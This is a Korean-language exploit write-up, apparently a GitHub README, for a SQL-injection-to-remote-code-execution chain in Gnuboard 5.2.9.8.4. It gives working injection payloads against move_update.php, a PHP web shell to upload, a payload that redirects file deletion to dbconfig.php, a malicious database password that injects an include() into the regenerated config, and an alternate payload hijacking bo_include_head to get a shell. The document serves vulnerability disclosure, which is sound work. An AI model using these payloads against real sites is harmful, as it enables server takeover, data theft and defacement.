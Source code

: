 # 그누보드 5.2.9.8.4 RCE
>해당 취약점은 그누보드 5.2.9.8.4 에서 터지는 SQL Injection을 이용한 RCE 취약점입니다.
>
## 취약점 설명
>그누보드 /bbs/move_update.php 29~30,164 라인
<pre><code>$move_bo_table = $_POST['chk_bo_table'][$i];
$move_write_table = $g5['write_prefix'] . $move_bo_table;</code></pre>
>위의 코드를 보면 별다른 검증없이 "$_POST['chk_bo_table'][$i]" 변수의 값을 "$move_write_table" 변수에 넣어주는것을 알 수 있습니다.
<pre><code>sql_query(" update $move_write_table set wr_parent = '$save_parent' where wr_id = '$insert_id' ");</code></pre>
>그리고 위와 같이 sql_query함수를 이용하여 update 하는 SQL을 날려주는데 이때 테이블 clause에서 SQL Injection이 가능하여 다른 테이블의 값을 조작할 수 있습니다.

<pre><code>        $sql = " insert into {$g5['board_file_table']}
                    set bo_table = '{$bo_table}',
                         wr_id = '{$wr_id}',
                         bf_no = '{$i}',
                         bf_source = '{$upload[$i]['source']}',
                         bf_file = '{$upload[$i]['file']}',
                         bf_content = '{$bf_content[$i]}',
                         bf_download = 0,
                         bf_filesize = '{$upload[$i]['filesize']}',
                         bf_width = '{$upload[$i]['image']['0']}',
                         bf_height = '{$upload[$i]['image']['1']}',
                         bf_type = '{$upload[$i]['image']['2']}',
                         bf_datetime = '".G5_TIME_YMDHIS."' ";
        sql_query($sql);
    }</code></pre>

>그누보드에서 파일을 업로드하는 기능이 있는데 이 파일을 업로드 하면 위와 같이 "g5_board_file" 라는 테이블에 파일 명, 게시판 명, 게시글 번호 등등이 Insert 됩니다.

>이때 간단한 웹 쉘 코드인 "<?php system($_GET['cmd']); ?>" 등의 코드를 작성하여 업로드 합니다.

> 이후 다음과 같은 SQL Injecttion 페이로드 글의 내용을 조작하여 업로드된 진짜 파일명을 알아냅니다
>"notice set wr_content=(select bf_file_name from g5_board_file where wr_id=1 and bo_table=0x6578706c6f6974)#"


<pre><code>        if (!delete_point($row['mb_id'], $bo_table, $row['wr_id'], '쓰기'))
            insert_point($row['mb_id'], $board['bo_write_point'] * (-1), "{$board['bo_subject']} {$row['wr_id']} 글삭제");

        // 업로드된 파일이 있다면 파일삭제
        $sql2 = " select * from {$g5['board_file_table']} where bo_table = '$bo_table' and wr_id = '{$row['wr_id']}' ";
        $result2 = sql_query($sql2);
        while ($row2 = sql_fetch_array($result2)) {
            @unlink(G5_DATA_PATH.'/file/'.$bo_table.'/'.$row2['bf_file']);
            // 썸네일삭제
            if(preg_match("/\.({$config['cf_image_extension']})$/i", $row2['bf_file'])) {
                delete_board_thumbnail($bo_table, $row2['bf_file']);
            }
        }

        // 에디터 썸네일 삭제
        delete_editor_thumbnail($row['wr_content']);</code></pre>

>위는 당시와 비슷한 버전의 글을 삭제하는 delete.php인데 위에서 insert 한 "g5_board_file" 테이블의 "bf_file" 컬럼의 값을 select하여 unlink 하는것을 알 수 있습니다.
>이를 위의 SQL Injection을 이용하여 다음과 같은 페이로드를 이용하여 해당 게시글의 bf_file 컬럼의 값을 변경해주었습니다

>"notice as a inner join `g5_board_file` as b set b.bf_file=0x2e2e2f646174612f6462636f6e6669672e706870 where wr_id=1 and bo_table=0x6e6f74696365#"

<pre><code>$mysql_host  = $_POST['mysql_host'];
$mysql_user  = $_POST['mysql_user'];
$mysql_pass  = $_POST['mysql_pass'];
$mysql_db    = $_POST['mysql_db'];
$table_prefix= $_POST['table_prefix'];
$admin_id    = $_POST['admin_id'];
$admin_pass  = $_POST['admin_pass'];
$admin_name  = $_POST['admin_name'];
$admin_email = $_POST['admin_email'];

$dblink = @mysql_connect($mysql_host, $mysql_user, $mysql_pass);</code></pre>

<pre><code>$file = '../'.G5_DATA_DIR.'/'.G5_DBCONFIG_FILE;
$f = @fopen($file, 'a');
fwrite($f, "<?php\n");
fwrite($f, "if (!defined('_GNUBOARD_')) exit;\n");
fwrite($f, "define('G5_MYSQL_HOST', '{$mysql_host}');\n");
fwrite($f, "define('G5_MYSQL_USER', '{$mysql_user}');\n");
fwrite($f, "define('G5_MYSQL_PASSWORD', '{$mysql_pass}');\n");
fwrite($f, "define('G5_MYSQL_DB', '{$mysql_db}');\n");
fwrite($f, "define('G5_MYSQL_SET_MODE', {$mysql_set_mode});\n\n");
fwrite($f, "define('G5_TABLE_PREFIX', '{$table_prefix}');\n\n");</code></pre>

> "dbconfig.php" 파일이 삭제되면 그누보드에선 install이 되지 않았다고 판단하여 위와 같은 install_db.php를 이용하여 다시 dbconfig.php 파일을 write해줍니다.

> 이 때 "mysql_connect" 함수에서 정상적인 connection을 위해 php코드를 본인의 로컬 mysql 서버에 " ');include($_GET['foo']);// "와 같은 DB or PASSWORD를 셋팅해주고 외부접속을 허용합니다.

>이 후 index.php?foo=파일명&cmd=ls 를 하면 정상적으로 쉘을 획득할 수 있습니다.

## 다른 exploit 방법

>그누보드에서는 각각의 게시판마다 g5_board 테이블에 있는 bo_include_head,bo_include_head 컬럼들의 값을 각각 상단 파일,하단 파일로 include합니다 때문에 다음과 같은 페이로드를 통해서 더욱 간단한 쉘 획득이 가능합니다.
>"notice as a inner join g5_board as b set b.bo_incldue_head=concat(0x2e2e2f646174612f6578706c6f69742f,(select bf_file from g5_board_file where wr_id=글 번호
))"
